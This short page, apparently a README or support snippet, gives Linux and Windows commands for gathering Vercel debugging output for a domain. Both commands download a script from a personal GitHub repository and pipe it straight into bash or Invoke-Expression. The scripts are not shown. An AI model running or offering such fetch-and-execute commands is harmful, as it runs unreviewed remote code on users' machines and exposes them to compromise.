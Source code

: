 Commands to run:

## Linux: 
    read domain\?"Enter Affected Domain: " && curl -s https://raw.githubusercontent.com/robachicken/test-ping/main/linux.sh | bash -s $domain | tee vercel-debug.txt

## Windows: 
    Invoke-RestMethod -Uri https://raw.githubusercontent.com/robachicken/test-ping/main/windows.ps1 | Invoke-Expression | tee vercel-debug.txt
